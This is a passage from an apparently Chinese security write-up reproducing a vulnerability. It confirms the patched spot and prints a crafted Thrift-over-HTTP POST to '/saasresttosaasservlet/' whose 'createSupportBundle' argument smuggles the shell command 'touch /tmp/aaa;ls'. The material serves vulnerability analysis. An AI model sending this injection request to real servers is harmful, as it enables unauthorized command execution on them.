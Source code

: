 然后发现补丁中确实对这个进行了处理

[![](assets/1701612478-99ff62ba8497272ac63c203c66d9bc94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230614102853-34a067c8-0a5b-1.png)

说明我们找对了地方。

接下来就是构造 thrift 的协议请求包了，这个地方不说了，一边调试一边构造就可以了。最后构造出来 exp 如图

[![](assets/1701612478-b4c7fa27112cb7ac14d4ddf9f42423d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230614102903-3ab35c9c-0a5b-1.png)

```bash
POST /saasresttosaasservlet/ HTTP/2
Host: 192.168.1.155
Content-Type: application/x-thrift
Accept: application/x-thrift
User-Agent: Java/THttpClient/HC
Content-Length: 93
Accept-Encoding: gzip,deflate

[1,"createSupportBundle",1,1,{"1":{"str":"10000"},"2":{"str":"*.tar.gz;touch /tmp/aaa;ls "}}]
```
